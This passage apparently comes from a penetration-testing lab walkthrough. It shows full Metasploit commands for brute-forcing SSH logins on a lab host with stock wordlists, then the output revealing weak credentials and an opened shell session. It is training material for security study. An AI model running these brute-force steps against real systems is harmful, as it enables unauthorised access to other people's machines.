 ```bash

# 📊 Intelligence Analysis:
# ✅ SSH service confirmed operational
# ✅ Modern encryption algorithms supported
# ✅ Server fingerprint obtained for verification
# ✅ No immediate version-based vulnerabilities detected
```

#### **Phase 5: Credential-Based Attack**
```bash
# Step 5: SSH credential brute force attack
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS demo.ine.local
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 10
msf6 auxiliary(scanner/ssh/ssh_login) > run

# Attack progress and results:
[*] 192.195.154.3:22 - Starting bruteforce
[-] 192.195.154.3:22 - Failed: 'root:123456'
[-] 192.195.154.3:22 - Failed: 'admin:admin'  
[-] 192.195.154.3:22 - Failed: 'sysadmin:password'
[+] 192.195.154.3:22 - Success: 'sysadmin:sysadmin' uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin) Linux demo.ine.local 6.8.0-36-generic x86_64 GNU/Linux
[*] SSH session 1 opened (192.195.154.2:38499 -> 192.195.154.3:22) at 2024-07-09 14:41:21 +0530

# 🎉 Successful Authentication:
# ✅ Username: sysadmin
# ✅ Password: sysadmin (weak credential detected)
# ✅ User ID: 1000 (standard user account)
# ✅ OS confirmed: Ubuntu Linux 6.8.0-36-generic
```

#### **Phase 6: Session Management and Interaction**
```bash
# Step 6: Manage and interact with established sessions
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l

Active sessions
===============
  Id  Name  Type        Information                Connection
  --  ----  ----        -----------                ----------  
  1         shell linux SSH sysadmin @ 192.195.154.2:38499 -> 192.195.154.3:22

# Session interaction and exploration
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

whoami
sysadmin

id  
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin)

uname -a
Linux demo.ine.local 6.8.0-36-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Mon Jun 10 10:49:14 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

